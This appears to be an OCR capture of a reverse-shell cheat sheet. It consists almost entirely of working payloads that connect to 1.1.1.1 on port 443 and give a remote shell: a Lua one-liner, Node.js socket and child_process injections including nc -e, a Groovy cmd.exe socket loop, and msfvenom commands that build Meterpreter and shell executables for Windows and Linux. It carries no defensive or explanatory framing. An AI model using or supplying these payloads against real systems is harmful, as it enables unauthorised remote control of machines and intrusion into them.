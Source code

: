 # Windows and Linux

`lua5.1 -e 'local host, port = "1.1.1.1", 443 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'`

# NodeJS:

`(function(){`
    `var net = require("net"),`
        `cp = require("child_process"),`
        `sh = cp.spawn("/bin/sh", []);`
    `var client = new net.Socket();`
    `client.connect(443, "1.1.1.1", function(){`
        `client.pipe(sh.stdin);`
        `sh.stdout.pipe(client);`
        `sh.stderr.pipe(client);`
    `});`
    `return /a/; // Prevents the Node.js application form crashing`
`})();`

`require('child_process').exec('nc -e /bin/sh 1.1.1.1 443')`

`-var x = global.process.mainModule.require`
`-x('child_process').exec('nc 1.1.1.1 443 -e /bin/bash')`

https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py

# Groovy:

`String host="1.1.1.1";`
`int port=443;`
`String cmd="cmd.exe";`
`Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();`

# Meterpreter Shell:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=443 -f exe > reverse.exe`

`msfvenom -p windows/shell_reverse_tcp LHOST=1.1.1.1 LPORT=443 -f exe > reverse.exe`

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=443 -f elf >reverse.elf`

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=1.1.1.1 LPORT=443 -f elf >reverse.elf`

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="1.1.1.1" LPORT=443 -f elf > shell.elf`
